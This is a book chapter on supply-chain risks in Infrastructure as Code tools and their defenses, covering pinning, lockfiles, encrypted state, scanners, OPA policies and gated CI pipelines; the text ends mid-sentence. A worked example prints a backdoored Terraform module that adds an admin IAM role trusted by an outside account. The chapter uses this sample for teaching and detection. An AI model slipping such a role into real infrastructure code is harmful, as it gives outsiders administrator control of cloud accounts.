






# Chapter 8 — Infrastructure as Code Supply Chain Risks

*What this chapter covers.* Every prior chapter in this book treated the *workload* as the thing
you defend: images (Book 6, Chapter 1 — Container Images), the registries that store them (Book 6,
Chapter 2 — Registries), and the admission gate that decides whether they run (Book 6, Chapter 6 —
Admission Control and Policy Engines). This chapter descends one layer, to the thing that *creates
the cluster in the first place*, and the network it lives in, and the IAM roles that grant it power,
and the data stores it talks to. Infrastructure as Code — Terraform, OpenTofu, Pulumi,
CloudFormation, CDK, Ansible, Crossplane — is program text that provisions your cloud. It is code,
so it has a supply chain: reusable **modules**, plugin **providers**, persistent **state**, and an
**execution pipeline** that runs with credentials powerful enough to build or destroy the whole
account. Compromise any of those four and you do not compromise one service — you compromise the
foundation every service stands on. That is the argument of the chapter, and everything else is
mechanism and defense.
_All tool versions, spec references, and defaults verified as of early 2026._

Learning goals — after this chapter you should be able to:

- Frame IaC as a **four-part supply chain** — modules, providers, state, execution identity — and
  say precisely what trust and what blast radius sits at each part.
- Explain the **Terraform/OpenTofu** specifics concretely: module sourcing and pinning, why a
  **provider is a privileged plugin** that runs with your cloud credentials, the role of
  **`.terraform.lock.hcl`**, registry **GPG signing**, and why **state** is a high-value target.
- Map the same structure onto **Pulumi, CloudFormation/CDK, Ansible, and Crossplane**, and see that
  the common risk is *reusable components executed at high privilege*.
- Deploy the defenses: **static misconfiguration scanning** (Checkov, tfsec/Trivy, Terrascan, KICS,
  cfn-nag), **policy as code** (OPA/Conftest, Sentinel), **pinning and lockfile verification**,
  **internal registries/mirrors**, **plan/apply separation with approval gates**, and **drift
  detection**.
- Reason about the **IaC execution identity as a tier-0 credential** and design the pipeline so a
  compromised module or a poisoned pipeline step cannot silently hand your cloud account to an
  attacker.

---

## Why IaC is a supply chain, and a uniquely dangerous one

Start from what IaC *is*, mechanically. A Terraform configuration is a set of declarations — "a VPC
with these CIDRs, an EKS cluster, an RDS instance, an IAM role with this trust policy." Terraform
reads the desired state, compares it to a recorded *actual* state, computes a diff (the **plan**),
and then calls cloud APIs to make reality match (the **apply**). To call those APIs it must hold
credentials, and because it provisions *everything* — networking, identity, compute, data — those
credentials are, in the general case, near-omnipotent in the account. An IaC runner that can create
IAM roles can create an IAM role that can do anything; the ceiling on its power is the account
itself.

Now layer on reuse. Nobody writes a production VPC from primitives every time. They pull a
**module** — someone else's parameterized bundle of resources — the same way an application pulls a
library (Book 2 — Dependency Management and Open Source Risk). They pull **providers**, the plugins
that translate Terraform's resource graph into AWS, GCP, Azure, Cloudflare, Datadog, or Kubernetes
API calls. Both modules and providers are fetched from registries over the network, both have
versions, both have transitive dependencies, and both are *executed* — modules by expansion into the
resource graph, providers as actual binaries running on the IaC host. Reuse plus execution plus high
privilege is the exact recipe that makes any supply chain dangerous; IaC just turns all three dials
to maximum.

The consequence is a blast radius argument you should internalize before the mechanics. When an
application dependency is malicious, the attacker gets that application's privileges — one service's
database, one service's secrets. When an *IaC* dependency is malicious, the attacker gets a foothold
in the layer that *defines* privilege. A single extra resource in a module — an IAM role whose trust
policy names an attacker's AWS account, a security-group rule opening `0.0.0.0/0` to a database port,
an S3 bucket policy granting `*` — is provisioned by *your* trusted pipeline, with *your* blessed
credentials, and it looks like infrastructure because it *is* infrastructure. This is why IaC belongs
in the same tier-0 conversation as your signing keys and your root secrets (Book 4, Chapter 6 —
Secrets Management in CI/CD; Book 1, Chapter 9 — Supply Chain Security in Distributed Backend Systems).



Read the diagram as four independent trust decisions feeding one execution. A defect in *any* of the
four — a backdoored module, a malicious provider, a tampered state file, a stolen pipeline
credential — flows through the engine into real infrastructure, and from there into everything that
runs on it. The rest of the chapter walks the four, Terraform first because it is the concrete,
dominant case, then the other ecosystems, then the defenses that harden all four.

---

## Terraform and OpenTofu: the four parts in detail

Terraform is the reference implementation of this model, and OpenTofu — the Linux Foundation fork
created after HashiCorp relicensed Terraform to the BUSL in 2023 — is wire- and language-compatible
with it, sharing the same module and provider protocols, the same `.terraform.lock.hcl` format, and
in most cases the same registry ecosystem. Everything in this section applies to both unless noted.

### Modules: reuse and its trust boundary

A module is a directory of `.tf` files that other configurations call with a `source` and a set of
input variables. The `source` argument is the trust boundary, and it takes several forms, each with
a different threat profile:

```hcl
# Public Terraform Registry — namespace/name/provider, version-constrained
module "vpc" {
  source  = "terraform-aws-modules/vpc/aws"
  version = "5.8.1"          # exact pin; not ">= 5.0" and not floating
  # ...
}

# Git source pinned to an immutable commit SHA (not a branch, not a tag)
module "network" {
  source = "git::https://git.example.com/infra/network.git//modules/vpc?ref=6f2c1e9a3b7d..."
}

# Internal/private registry
module "logging" {
  source  = "app.terraform.io/acme/logging/aws"
  version = "2.3.0"
}
```

The risks track the parallels from Book 2 almost line for line:

- **Typosquatting and untrusted sources.** The public registry namespace is
  `<namespace>/<name>/<provider>`, and `terraform-aws-modules/…` is a well-known community
  organization. `terraform-aws-modu1es` or a look-alike personal namespace is a classic squat (Book 2,
  Chapter 3 — Dependency Confusion, Typosquatting, and Namespace Attacks). A registry module ultimately
  resolves to a git repository or archive; you are trusting whoever controls that source.
- **Backdoor infrastructure.** The dangerous module is not one that *fails* — it is one that provisions
  everything you asked for *plus one more resource*. An extra `aws_iam_role` with a cross-account
  `assume_role` trust policy. An extra ingress rule on a security group. An `aws_iam_user` with an
  access key exported to a place the attacker can read. Because the module also does its advertised
  job, the diff looks plausible and the review is where it must be caught — which is precisely why
  unreviewed module upgrades are so dangerous.
- **Unpinned versions.** `version = ">= 5.0"` or a git `?ref=main` means the *next* `terraform init`
  can silently pull a new, possibly compromised, release — the IaC form of the floating-dependency
  problem (Book 2, Chapter 2 — Versioning, Resolution, and Lockfiles). Note a sharp limitation:
  Terraform's `version` constraint on modules is honored *only* for registry sources. Git and HTTP
  sources are pinned solely by their `ref`/URL, so an immutable **commit SHA** is the only real pin
  for a git module — a tag can be moved.
- **Transitive modules.** Modules call modules. `terraform-aws-modules/vpc/aws` may itself invoke
  sub-modules. Your pin covers the top level; you inherit whatever *it* pins (or fails to pin) below.
  There is no module lockfile in Terraform — only the provider lockfile — so transitive module
  integrity rests entirely on the sources each module hard-codes.

Defenses: pin every module to an exact registry version or a commit SHA; vet modules before adoption
and re-vet on upgrade (read the diff, not just the changelog); and route module consumption through
an **internal/private registry** so teams pull from a curated, scanned catalog rather than the open
internet — the IaC analog of an internal package registry (Book 2, Chapter 8 — Vendoring, Mirroring,
and Internal Registries) and of the golden-base-image paved road (Book 6, Chapter 3 — Base Image
Strategy).

### Providers: the privileged plugin problem

Providers are where IaC's threat model diverges most sharply from ordinary dependency risk, and it is
the part engineers most often underestimate. A Terraform provider is not configuration — it is an
**executable binary**. During `terraform init`, Terraform downloads the provider plugin for your
platform from a registry. During `plan` and `apply`, Terraform launches that binary as a subprocess
and speaks to it over a local gRPC protocol. The provider is the component that actually holds and
uses your cloud credentials: it reads `AWS_ACCESS_KEY_ID` or assumes the runner's role, opens network
connections to `*.amazonaws.com`, and makes the create/read/update/delete calls.

That means a malicious or compromised provider has, by construction, everything an attacker wants:
code execution on the IaC host, the cloud credentials in that host's environment, and outbound
network access. It does not need a clever exploit. It can read every environment variable and POST it
to an attacker endpoint; it can make out-of-band API calls that never appear in your `.tf` files or
your plan; it can provision backdoor resources that the plan does not show because the plan only
reflects your declared configuration, not whatever else the provider chose to do with your
credentials.



The defense is a chain of provenance and pinning that Terraform builds in, and which you must not
bypass:

**Registry signing.** Providers published to the public Terraform Registry are distributed with a
GPG signature over the release's `SHA256SUMS` file, signed by the publisher's key (registered with
the registry). On `terraform init`, Terraform downloads the sums file and its signature and verifies
the signature against the registry-supplied public key before trusting the checksums. This binds the
downloaded binary to a key the publisher controls — analogous in spirit to package signing, though
it is publisher self-attestation via the registry, not a third-party transparency log.

**The dependency lock file, `.terraform.lock.hcl`.** This is the single most important control and
the direct analog of `package-lock.json` or `Cargo.lock` (Book 2, Chapter 2). `terraform init`
generates or updates it, and it records, per provider, the *exact resolved version*, the *version
constraints* that produced it, and — critically — a set of `h1:`/`zh:` **hashes** covering the
provider package. `zh:` hashes are the zip-archive hashes taken from the registry's signed
`SHA256SUMS`; `h1:` is Terraform's own content hash of the extracted package. On every subsequent
`init`, Terraform verifies the provider it downloads against these recorded hashes and **fails** if
they do not match. Commit this file to version control. It is what turns "we use AWS provider ~> 5.0"
into "we use exactly this bit-for-bit provider, and CI will refuse anything else."

```hcl
# .terraform.lock.hcl — generated; commit this to the repo
provider "registry.terraform.io/hashicorp/aws" {
  version     = "5.62.0"
  constraints = ">= 5.0.0, < 6.0.0"
  hashes = [
    "h1:8f2e...==",                       # Terraform h1 content hash
    "zh:0a1b...",                          # signed registry archive hashes
    "zh:1c2d...",
    # ... one zh: per platform archive
  ]
}
```

Two operational rules make the lock file actually protective. First, when you add or change
providers, run `terraform providers lock -platform=linux_amd64 -platform=darwin_arm64 …` to record
hashes for *every* platform your team and CI use — otherwise a developer on an unlocked platform
fetches without verification and can repopulate the file with attacker-supplied hashes. Second, in CI
run `terraform init` (and ideally a plan) and treat any lock-file modification as a change that must
be reviewed and committed deliberately, never auto-accepted.

**Trusted sources and private mirrors.** For a stronger posture, run a **provider network mirror** (a
filesystem or HTTP mirror configured via `provider_installation` in the CLI config, or the
`terraform providers mirror` command) so runners fetch only vetted providers from infrastructure you
control, never directly from `registry.terraform.io`. This is the provider analog of an internal
module registry and closes the "init reaches the internet" gap in locked-down environments.

### State: the record that holds your secrets

Terraform's **state** is the file that records the mapping between your configuration and the real
resources it manages — resource IDs, dependency ordering, and, importantly, resource *attributes*.
Many of those attributes are sensitive: an `aws_db_instance` password, a generated `tls_private_key`,
an IAM access key, the contents of a secret. Terraform stores these in state in **plaintext** by
default, regardless of whether you marked them `sensitive` in outputs — the `sensitive` flag hides
them from CLI display, not from the state file. State is therefore a secrets store whether you intend
it to be or not, and it is a first-class target.

Two distinct risks:

- **Confidentiality.** Anyone who can read the state can read those secrets. Local state on a laptop
  or, worse, committed to git, is a credential leak waiting to happen.
- **Integrity — state tampering.** State is Terraform's source of truth for "what exists." An attacker
  who can *write* state can lie to Terraform: mark a resource as already-configured when it is not
  (suppressing a corrective change), or — via `terraform import`/state manipulation — bring an
  attacker-controlled resource under management. Tampered state produces malicious or misleading
  plans; drift between state and reality is both an attack symptom and an attack tool.

The defenses are standard but non-negotiable for any shared use: **remote state** with encryption and
access control. The common patterns are an S3 backend with **SSE-KMS** encryption and a DynamoDB
table (or S3 native locking) for state locking, or **Terraform Cloud / HCP Terraform** which stores
state encrypted at rest and never writes it to the runner's disk in the clear. Lock down the backend
like a secrets store: KMS key policy and bucket policy restricting read/write to the IaC pipeline
identity and break-glass admins only, versioning enabled (so you can detect and roll back tampering),
and access logging on. Never commit state to source control; never leave it as local `terraform.tfstate`
for anything shared.

### The execution environment: where the crown-jewel credential lives

The fourth part is not a file — it is the pipeline that runs `terraform apply`, and it is the part
with the highest privilege of all. This is a CI/CD problem, and Book 4 is its home, but the IaC-specific
severity is worth stating plainly: **an attacker who can run code in the IaC apply pipeline controls
your infrastructure.** Not one build, not one artifact — the account.

That makes IaC pipelines the premium target for **Pipeline Poisoning / Poisoned Pipeline Execution
(PPE)** (Book 4, Chapter 7 — Pipeline Poisoning: PPE, Cache, and Artifact Attacks). The generic PPE
move — get attacker-controlled code to execute in a pipeline that holds privileged credentials, via a
malicious PR that alters the CI definition, a poisoned pre-commit hook, or a compromised build step —
is catastrophic here because the credential the pipeline holds is the cloud admin role. Two structural
defenses matter most:

- **Plan/apply separation.** Run `terraform plan` on untrusted input (e.g., a PR from a fork or an
  unprivileged contributor) with **read-only** or *no* cloud credentials, and gate `terraform apply`
  behind merge to a protected branch and a human approval. The plan job can render the diff without
  the power to change anything; only the trusted, post-review apply job gets write credentials. This
  neutralizes the most common PPE vector — malicious code in a PR trying to reach the apply
  credential — because the PR path never touches it.
- **Short-lived, workload-identity credentials.** The apply job should assume a role via OIDC
  federation (GitHub Actions OIDC → AWS IAM role, GCP Workload Identity Federation, Azure workload
  identity) and receive a **short-lived** token scoped to that job, never a long-lived static cloud
  key sitting in a CI secret (Book 4, Chapter 6 — Secrets Management in CI/CD; Book 5, Chapter 4 —
  Keyless Signing and Workload Identity). Run applies in ephemeral, isolated runners (Book 4,
  Chapter 8 — Ephemeral and Isolated Build Environments) so a poisoned step cannot persist.

---

## The blast radius, made concrete

Before the other ecosystems, hold on one worked example, because it is the whole reason the chapter
exists. Suppose an internal module `acme/eks-cluster/aws`, used by forty teams, gains one extra
resource in a new minor version — a version the teams pull because their `version` constraint was
`~> 3.2` and nobody read the 3.4.0 diff:

```hcl
# Slipped into an otherwise-legitimate module version
resource "aws_iam_role" "cluster_ops" {          # innocuous name
  name = "eks-cluster-ops"
  assume_role_policy = jsonencode({
    Version = "2012-10-17"
    Statement = [{
      Effect    = "Allow"
      Principal = { AWS = "arn:aws:iam::209876543210:root" }  # attacker's account
      Action    = "sts:AssumeRole"
    }]
  })
}

resource "aws_iam_role_policy_attachment" "cluster_ops_admin" {
  role       = aws_iam_role.cluster_ops.name
  policy_arn = "arn:aws:iam::aws:policy/AdministratorAccess"
}
```

Every team that applies this module now has an admin-equivalent role in their account whose trust
policy lets an *external* AWS account assume it. The attacker calls `sts:AssumeRole` from their
account and has administrator access to forty of yours. No malware ran on a workload; no image was
tampered with; your admission controller and image signing did their jobs perfectly and are entirely
irrelevant, because the compromise happened one layer below them, provisioned by your own trusted
pipeline.



The same shape applies to a security-group rule opening a management port to the internet, an S3
bucket made public, a VPC peering to an attacker VPC, or a Lambda that exfiltrates on a schedule. The
lesson: at IaC's privilege level, the diff *is* the security boundary. Everything in the defenses
section exists to make sure a human or a policy engine sees that diff before it becomes real.

---

## The other IaC ecosystems

Terraform is the archetype, but the four-part model — reusable components executed at high privilege —
generalizes. What changes across ecosystems is *which* supply chain the reusable components come from.

**Pulumi** expresses infrastructure in general-purpose languages — TypeScript, Python, Go, C#. That
is ergonomically pleasant and a supply-chain multiplier: a Pulumi program is an ordinary npm or PyPI
project, so *the entire language package supply chain applies directly* (Book 2). Your `package.json`
or `requirements.txt` pulls in dependencies with `postinstall` scripts, transitive packages, and
typosquat risk — and this code runs *in the same process that holds your cloud credentials and drives
provisioning*. Pulumi also has its own providers (many wrapping the Terraform providers) and a
registry for reusable components. So Pulumi has two overlapping supply chains: the language ecosystem
(defend with lockfiles, `npm ci`/pinned installs, SCA — Book 2, Chapter 6) and the provider/component
ecosystem (defend with pinning and vetting). State and execution-identity concerns are identical to
Terraform's; Pulumi state lives in the Pulumi Service or a self-managed backend (S3/GCS/Azure Blob)
and holds secrets, though Pulumi encrypts secret values in state with a per-stack key by default —
a meaningful improvement over Terraform's plaintext default.

**CloudFormation and the CDK.** CloudFormation is AWS's native template engine; a template is YAML/JSON
and is executed by the AWS CloudFormation *service*, not on your runner, so there is no local
privileged-plugin risk — but the template's supply chain lives in **CloudFormation modules/macros**
and in the **CDK**. The AWS CDK compiles high-level constructs in a real language (TypeScript, Python,
Java, Go) down to a CloudFormation template, so, like Pulumi, it inherits the npm/PyPI supply chain
for its dependencies and for third-party **Construct Library** packages published to those registries.
A malicious CDK construct can inject resources into the synthesized template exactly as a malicious
Terraform module injects them into the plan. Execution privilege lives in the CloudFormation **service
role** and the deploying principal — treat it as the tier-0 credential the way you treat the Terraform
apply role.

**Ansible.** Ansible is configuration management more than provisioning, but the model holds: reuse
comes from **roles and collections** distributed via **Ansible Galaxy** (and Automation Hub). A role
is downloaded and its tasks executed — often with `become`/root on managed hosts or with cloud
credentials for cloud modules. So a malicious Galaxy role is code execution on your fleet or in your
cloud. Pin roles/collections by version in `requirements.yml`, vet them, and prefer a curated internal
Galaxy/Automation Hub over open Galaxy. Ansible has no lockfile-with-hashes equivalent as strong as
`.terraform.lock.hcl`, so source curation carries more weight.

**Crossplane** makes infrastructure Kubernetes-native: you declare cloud resources as Kubernetes
custom resources, and Crossplane **providers** (installed as OCI **packages**) reconcile them via
cloud APIs, with reusable **Compositions** and **Configuration packages** playing the module role.
This folds IaC supply chain into the container/OCI supply chain of this entire book — Crossplane
packages are OCI images pulled from registries, so image provenance, signing, and admission (Chapters
1, 2, 5, 6) apply to them. The provider pods run with cloud credentials (via IRSA/workload identity),
so they are the privileged-plugin risk wearing a Kubernetes hat.

| Ecosystem | Reusable component | Its supply chain | Privileged execution |
|---|---|---|---|
| Terraform/OpenTofu | Modules, providers | Registry + git; provider binaries | `apply` runner + cloud creds |
| Pulumi | Providers, components, **language deps** | npm/PyPI/Go **+** Pulumi registry | Program process + cloud creds |
| CloudFormation/CDK | Modules/macros, **CDK constructs** | npm/PyPI (CDK) + CFN registry | CFN service role |
| Ansible | Roles, collections | Ansible Galaxy / Automation Hub | `become`/root or cloud creds |
| Crossplane | Providers, Compositions | **OCI packages** (this book) | Provider pods + workload identity |

The through-line: whatever the syntax, you are trusting reusable code from a registry and then running
it — or something it emits — at a privilege level that can reshape your infrastructure. Defend
accordingly, and reuse the controls you already built for the language and container supply chains.

---

## Defenses I: static analysis and misconfiguration scanning

There are two distinct classes of IaC risk, and it is worth keeping them separate because the tooling
differs. The first, the subject of this chapter's framing, is **supply-chain tampering**: a
component or pipeline is compromised and provisions something malicious. The second, related and far
more common in day-to-day practice, is **misconfiguration**: the IaC is exactly what its author
intended, but what they intended is insecure — a security group open to the world, a public S3 bucket,
an over-broad IAM policy, an unencrypted volume. Misconfiguration scanners target the second class,
and they matter to the supply chain story because *they are also how you catch the backdoor a
malicious module tried to slip past review* — an attacker-added public-ingress rule trips the same
rule an honest mistake would.

**Static IaC scanners** parse your Terraform/CloudFormation/Kubernetes/etc. (usually the HCL/YAML
directly, and better tools also the Terraform *plan* JSON) and evaluate it against a library of
checks:

- **Checkov** (Prisma/Bridgecrew) — hundreds of built-in policies across Terraform, CloudFormation,
  Kubernetes, Helm, ARM, and more; supports custom policies in Python or YAML.
- **tfsec** — Terraform-focused; its checks and engine have been folded into **Trivy**, which is now
  the maintained path (Trivy also does image and dependency scanning — Book 6, Chapter 4 — Image
  Scanning and Vulnerability Management — so it can be one tool across images and IaC).
- **Terrascan** (Tenable) — OPA/Rego-based policy engine over IaC.
- **KICS** (Checkmarx) — broad IaC coverage (Terraform, CloudFormation, Ansible, Kubernetes, Helm,
  Docker) with a large query set.
- **cfn-nag** — CloudFormation-specific linter for insecure patterns.
- **Cloud-native / runtime** — **AWS Config**, **Security Hub**, GCP Security Command Center, Azure
  Policy catch misconfiguration *after* apply, as a backstop for what static scanning missed or what
  drifted.

What they check, concretely: publicly-open security groups and NACLs (`0.0.0.0/0` to sensitive
ports); public S3 buckets / GCS buckets / blob containers; IAM policies with `Action: "*"` /
`Resource: "*"` or `iam:PassRole` sprawl; missing encryption at rest (unencrypted EBS, RDS, S3);
missing encryption in transit; disabled logging (no CloudTrail, no VPC flow logs, no access logs);
publicly-exposed databases; and hardcoded secrets in IaC. Wire the scanner into pre-commit and CI so
a finding fails the plan job before it reaches apply:

```bash
# CI step — fail the build on high/critical misconfig, and scan the *plan*, not just source,
# so computed values and injected resources are visible
terraform plan -out=tf.plan
terraform show -json tf.plan > tf.plan.json
checkov -f tf.plan.json --framework terraform_plan \
        --compact --quiet --soft-fail-on LOW
# non-zero exit on MEDIUM+ fails the pipeline
```

Scanning the **plan JSON** rather than only the raw `.tf` is the higher-signal choice: it sees the
fully-resolved graph, including resources contributed by modules and values computed from variables,
which is exactly where a backdoor module would hide. Static source scanning can miss what a module
injects; plan scanning cannot.

A caveat consistent with this book's realism: these tools find *known-pattern* misconfigurations. A
sufficiently clever backdoor that uses only "valid" configuration — a legitimate-looking IAM role
whose only sin is a trust-policy principal pointing at an attacker account — may pass every built-in
check, because "cross-account trust" is a normal, sometimes-necessary pattern. That is why scanning is
necessary but not sufficient, and why the next layer — policy as code you write to your own invariants
— and human review of the diff both remain essential.

---

## Defenses II: policy as code for IaC

Misconfiguration scanners ship opinions; **policy as code** lets you encode *your organization's*
invariants and gate IaC changes on them before apply. This is the same discipline as admission control
for Kubernetes (Book 6, Chapter 6) and the same engines, applied to infrastructure definitions instead
of runtime objects — and it is the connective tissue to Book 8, Chapter 4 — Policy as Code and
Continuous Compliance.

**OPA / Conftest against the Terraform plan.** Conftest runs Rego policies against structured
configuration. Feed it the plan JSON and you can assert arbitrary invariants over the *exact changes*
about to be applied:

```rego
# policy/terraform.rego — deny public S3 and mandate encryption
package main

deny contains msg if {
    rc := input.resource_changes[_]
    rc.type == "aws_s3_bucket_public_access_block"
    not rc.change.after.block_public_acls
    msg := sprintf("S3 bucket %q must block public ACLs", [rc.address])
}

deny contains msg if {
    rc := input.resource_changes[_]
    rc.type == "aws_db_instance"
    rc.change.after.storage_encrypted != true
    msg := sprintf("RDS instance %q must have storage_encrypted = true", [rc.address])
}

# Supply-chain-flavored invariant: no IAM role may trust an account outside our org
deny contains msg if {
    rc := input.resource_changes[_]
    rc.type == "aws_iam_role"
    pol := json.unmarshal(rc.change.after.assume_role_policy)
    principal := pol.Statement[_].Principal.AWS
    not allowed_account(principal)
    msg := sprintf("IAM role %q trusts non-org principal %v", [rc.address, principal])
}
```

```bash
terraform show -json tf.plan > tf.plan.json
conftest test --policy policy/ tf.plan.json
```

That last policy is the important one for this chapter: it is a *supply-chain* control, not a generic
misconfiguration check. Even if a malicious module injects the backdoor IAM role from the worked
example, a policy that enumerates allowed trust principals rejects it at the gate, because the
attacker's account is not on the list. Policy as code lets you defend against the class of tampering
that pattern-scanners miss, *provided you write the invariant*.

**Sentinel (HCP Terraform / Terraform Enterprise).** HashiCorp's policy-as-code framework integrates
into the Terraform Cloud run pipeline, evaluating policies against the plan between plan and apply,
with **enforcement levels** — `advisory` (warn), `soft-mandatory` (block, but an authorized user may
override), and `hard-mandatory` (block, no override). It can read the plan, the config, the prior
state, and run cost estimates. The enforcement-level model maps cleanly onto a rollout strategy:
introduce a new policy as advisory, watch what it would have blocked, then promote to mandatory —
exactly the audit-then-enforce pattern from admission control.

**Checkov custom policies** cover the same ground for teams standardized on Checkov, letting you add
organization-specific rules alongside the built-ins.

Whichever engine, the placement is the same and it is the point: **policy runs on the plan, between
plan and apply, and a failure blocks apply.** The infrastructure change is evaluated while it is still
a proposed diff, never after it is real.

---

## Defenses III: the IaC pipeline, end to end

Assemble the controls into one pipeline and the shape is an assembly line of gates, each one a chance
to stop a bad change — whether the badness is a mistake, a misconfiguration, or a supply-chain
compromise — before it reaches infrastructure holding a privileged credential.



Walk the gates:

1. **init with verification.** `terraform init` verifies providers against `.terraform.lock.hcl`
   hashes and fails on mismatch; module pins are honored. Any change to the lock file is itself a
   reviewable event. This is the supply-chain integrity gate.
2. **plan without write power.** The plan runs with read-only or no cloud credentials, especially on
   PRs from untrusted contributors — the PPE mitigation. It emits the diff as an artifact.
3. **scan.** Checkov/Trivy on the plan JSON, failing on high-severity misconfiguration.
4. **policy.** Conftest/Sentinel on the plan, enforcing organizational invariants (no public storage,
   mandatory encryption, only-org IAM trust principals, approved regions, required tags).
5. **human review.** A person reads the *diff* — the `+`/`-`/`~` resource changes — because IaC is
   code and reviewing it is reviewing infrastructure (Book 7 — Source, Code, and Insider Threat
   Security; in particular Chapter 3 — Branch Protection, Review, and Two-Person Rules). This is the
   catch-all for the clever backdoor that passed the automated gates.
6. **approval + apply.** Only after merge to a protected branch and explicit approval does `apply`
   run, assuming a short-lived, scoped role via OIDC — never a long-lived cloud-admin static key.
7. **drift detection.** On a schedule, run `terraform plan` (with read access) against production. A
   non-empty diff means reality diverged from the declared state — an out-of-band change, which is
   either an unmanaged human edit or the fingerprint of tampering. Drift detection is IaC's
   equivalent of continuous compliance and a genuine tamper-detection signal.

A minimal apply gate in GitHub Actions, showing plan/apply separation and OIDC:

```yaml
# .github/workflows/terraform.yml (excerpt)
permissions:
  id-token: write        # OIDC for short-lived cloud creds
  contents: read

jobs:
  plan:                  # runs on PRs — NO write creds
    runs-on: ephemeral-runner
    steps:
      - uses: actions/checkout@<pinned-sha>
      - run: terraform init            # verifies .terraform.lock.hcl
      - run: terraform plan -out=tf.plan
      - run: terraform show -json tf.plan > tf.plan.json
      - run: checkov -f tf.plan.json --framework terraform_plan
      - run: conftest test --policy policy/ tf.plan.json

  apply:                 # runs only on main, after approval
    if: github.ref == 'refs/heads/main'
    needs: plan
    environment: production        # GitHub environment = required reviewers gate
    runs-on: ephemeral-runner
    steps:
      - uses: actions/checkout@<pinned-sha>
      - uses: aws-actions/configure-aws-credentials@<pinned-sha>
        with:
          role-to-assume: arn:aws:iam::111122223333:role/tf-apply   # scoped, OIDC-assumed
          aws-region: us-east-1
      - run: terraform init
      - run: terraform apply -auto-approve
```

The `environment: production` line is doing real work: GitHub environments support required reviewers,
so `apply` physically cannot start until a designated human approves the run — the approval gate,
enforced by the platform rather than convention. Action versions are pinned by SHA (Book 4, Chapter 5
— Hardening GitHub Actions), because your CI actions are themselves a supply chain.

### The controlled execution plane

Rolling all of this yourself in raw CI is possible but fragile. The mature pattern is a **dedicated IaC
execution plane** that centralizes the gates, the state, and the credentials:

- **HCP Terraform / Terraform Enterprise** — managed runs, remote encrypted state, Sentinel/OPA
  policy sets, run approvals, and a private module registry, all in one control plane.
- **Atlantis** — self-hosted; listens on PRs, runs `plan` and comments the diff back on the PR, and
  runs `apply` on an approving comment, keeping the whole flow in the PR where review happens.
- **Spacelift** — a commercial platform with policy (OPA), drift detection, and private worker pools.

The value is the same as a paved-road build platform (Book 4, Chapter 10 — Designing a Secure Build
Platform at Scale): the privileged credential lives in *one* controlled, audited place instead of
scattered across team pipelines; state is centrally encrypted; policy is enforced uniformly; and every
run is logged. This is the IaC analog of a golden-image paved road (Book 6, Chapter 3) and of
admission control as a central enforcement substrate (Book 6, Chapter 6) — you concentrate the risky
capability so you can afford to guard it well.

---

## The distributed-systems lens

IaC is where the "many services, many teams, many repos" reality of backend engineering meets the
foundation those services run on, and every theme of this suite reappears sharpened.

**Concentration and propagation.** IaC provisions the fleet's foundation, so a compromised module,
provider, or pipeline propagates to *all* infrastructure it manages. A backdoored internal module used
by forty teams is forty compromised accounts from one change (Book 1, Chapter 9 — Supply Chain
Security in Distributed Backend Systems). The same concentration that makes reuse efficient makes
compromise systemic. The mitigation is not to abandon reuse — it is to make the reused thing a
*paved road*: internal module and provider registries/mirrors, pinning, scanning, and policy gates,
so that the standardized path is also the secured path, and the concentration works *for* you (one
place to vet, one place to patch) instead of against you.

**The IaC execution identity is a crown-jewel credential.** It sits alongside your signing keys and
root secrets in the tier-0 tier. Treat it as such: **workload identity** and short-lived tokens over
long-lived static keys (Book 4, Chapter 6; Book 5, Chapter 4 — Keyless Signing and Workload Identity),
**least privilege** scoped as tightly as the reconciliation actually requires (genuinely hard for a
tool whose job is to create IAM, but at minimum separate plan-read from apply-write, scope per
environment, and deny the ability to touch the logging/audit and the IaC state backend itself), and
**never** a long-lived cloud-admin key sitting in a CI variable. The apply pipeline holding a static
`AdministratorAccess` key is the single worst credential-management decision available to an
infrastructure team, and it is depressingly common.

**Gates as admission control for infrastructure.** Plan review, policy evaluation, and approval gates
are to infrastructure changes what admission webhooks are to Kubernetes objects (Book 6, Chapter 6):
the last checkpoint that can reason about the *content* of a proposed change before it becomes real,
and the point where you enforce "no public buckets, mandatory encryption, only-org IAM trust" as
hard invariants. Drift detection is the continuous-verification companion — the audit that reality
still matches the declared, policy-passing state. Together they make infrastructure changes
governable at fleet scale instead of trusted per-engineer.

**Reviewing IaC is reviewing infrastructure.** Because IaC is code, the entire discipline of source
security applies (Book 7): branch protection, required review, two-person rules on the highest-blast-
radius repos, commit signing, and secret scanning on the IaC repo itself. But the review has a
heightened stakes profile — a subtle diff in an app repo risks a bug; a subtle diff in the IaC repo
risks the account. Reviewers of infrastructure changes should read the *plan diff*, not just the code
diff, and should be specifically wary of new IAM trust relationships, new network exposure, and
changes to the state backend or the pipeline definition itself.

**The controlled execution plane as the coordination point.** In a distributed system you centralize
the things that must be consistent and guarded — service discovery, config, secrets. The IaC execution
plane (HCP Terraform, Atlantis, Spacelift) is that coordination point for infrastructure change: the
one place the crown-jewel credential lives, state is encrypted, policy is uniform, and every apply is
attributable. Standardizing teams onto it is how you move from "every team's CI can nuke a cloud
account" to "infrastructure change is a governed, observable, policy-gated pipeline."

---

### IaC scanning in the PR lifecycle



### Terraform state as crown jewels



### Drift detection loop

```mermaid
flowchart TB
  GIT["Desired (Git)"] --> RECON["Reconciler<br/>(drift detection)"]
  LIVE["Live (cloud / cluster)"] --> RECON
  RECON --> DIFF{"Drift?"}
  DIFF -->|No| OK["In sync"]
  DIFF -->|Yes| CLASS{"Kind?"}
  CLASS -->|Intended (approved)| APPROVE["Approve via PR<br/>+ audit log"]
  CLASS -->|Unintended / manual| ALERT["Alert + auto-revert<br/>(GitOps) or ticket"]
  style ALERT fill:#f85149,color:#fff
  style APPROVE fill:#d29922,color:#000
```

## Key takeaways

- **IaC is a four-part supply chain — modules, providers, state, execution identity — executed at
  near-omnipotent privilege.** Compromise any part and you compromise the foundation, not one app.
  This is the blast-radius argument, and it is why IaC deserves tier-0 treatment.
- **A provider is a privileged plugin, not config.** It runs as a binary during plan/apply with your
  cloud credentials and network access; a malicious one can exfiltrate and provision out-of-band,
  invisibly to the plan. Defend with registry GPG signing, `.terraform.lock.hcl` hash verification
  (commit it; lock all platforms), and private mirrors.
- **Pin modules to exact versions or commit SHAs.** For git sources, the SHA is the only real pin —
  tags move, and `version` constraints are honored only for registry modules. There is no module
  lockfile, so transitive-module integrity rests on curation and internal registries.
- **State is a plaintext secrets store and a tamper target.** Use encrypted remote state (S3+KMS,
  HCP Terraform), lock down access like a secret, enable versioning, and never commit state to git.
- **The apply pipeline is the premium PPE target.** Separate plan (read-only, untrusted input) from
